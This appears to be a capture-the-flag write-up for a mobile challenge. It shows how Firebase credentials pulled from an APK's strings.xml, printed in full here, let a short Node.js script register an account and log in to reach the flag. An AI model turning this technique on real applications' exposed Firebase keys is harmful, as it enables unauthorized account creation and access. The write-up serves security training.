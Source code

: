 ## Mobile 3 - Broken Firebase AuthN
#### Description
Firebase services are so popular. SaaS service like this is probably secure. Prove it wrong, in the case that it is insecurely misconfigured, like in this mobile application.  
  
__Flag format__ : WTCTT2023_MOB03{[a-z0-9]{32}}  
__File__ : sh.sth.secguy888.apk 
__SHA256 Checksum__ : 450c8abb1ec0b4ffc18f4c3992007738c8439e8d8d6a6d22a3e8ebbed0d827cf

#### Solution
We still on strings.xml. if you scroll down, you will find firebase credential.
![1.png](./assets/mobile3/1.png)

After discovering the credential, I looked up how to use apiKey; however, in order to use it, we must develop a program. I use nodeJs to develop a program

```less
npm i firebase
```

```js
  
import { initializeApp } from "firebase/app"

import { createUserWithEmailAndPassword, getAuth,signInWithEmailAndPassword } from "firebase/auth"

  

const firebaseConfig = {

apiKey: "AIzaSyC2G3pFXGQ028mFguwmQ2lTt92MRzRoufw",

storageBucket: "wtctt2023-secguy888.appspot.com",

appId: "1:874831948305:android:5606af5d393045e378dfb0",

databaseURL: "https://wtctt2023-secguy888.firebaseio.com",

authDomain: "wtctt2023-secguy888.firebaseapp.com",

};

  

const app = initializeApp(firebaseConfig);

const auth = getAuth(app)

createUserWithEmailAndPassword(auth, "someEmail", "somePassword").then((res) => { console.log(res) })

// signInWithEmailAndPassword(auth, "test3@gmail.com", "12345678").then((res) => { console.log(res) })
```

Run code for register and you will get user for login to application, comment create function and uncomment sign function.

![2.png](./assets/mobile3/2.png)

but we don't know login path, Let's find it

![3.png](./assets/mobile3/3.png)

Finally we found this function that told you about api path and how to use it.

![4.png](./assets/mobile3/4.png)

Yummy, we got FLAG3. XD!!!